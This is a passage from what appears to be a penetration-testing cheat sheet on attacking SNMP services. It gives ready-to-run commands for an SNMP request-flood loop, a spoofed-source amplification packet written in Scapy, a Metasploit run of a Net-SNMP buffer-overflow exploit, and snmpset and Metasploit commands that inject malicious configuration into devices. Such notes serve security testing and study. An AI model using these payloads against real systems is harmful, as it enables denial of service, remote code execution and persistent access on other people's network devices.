 *   **Tool:** \[\[SNMPWalk]]

    ```bash
    while true; do snmpwalk -v 2c -c public <target_ip>; done
    ```
* **Description:** Flood the SNMP service with requests, consuming network and device resources, potentially leading to a denial of service.

#### SNMP Amplification Attack

*   **Tool:** \[\[Scapy]]

    ```python
    from scapy.all import *
    send(IP(src="<spoofed_ip>", dst="<target_ip>")/UDP(dport=161)/SNMP(community="public",PDU=SNMPget()))
    ```
* **Description:** Exploit SNMP to amplify traffic towards a victim, causing network congestion or disruption.

#### SNMP Buffer Overflow (CVE-2002-0013)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/snmp/net-snmp_write
    set RHOSTS <target_ip>
    set COMMUNITY public
    run
    ```
* **Description:** Exploits a buffer overflow vulnerability in Net-SNMP, allowing remote code execution on the target device.

### Exploits

#### SNMP Configuration Injection

* **Tool:** \[\[SNMPSet]]

```bash
    snmpset -v <snmp_version> -c <community_string> <target_ip> .1.3.6.1.2.1.1.6.0 s "Privileged Access"
```

\


*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/admin/snmp/snmp_set
    set RHOSTS <target_ip>
    set COMMUNITY private
    set OID 1.3.6.1.4.1.9.9.96.1.1.1.1.14.1.1
    set VALUE "malicious_config"
    run
    ```
* **Description:** Injects malicious configurations into SNMP-enabled devices, potentially leading to further exploitation or persistent access.
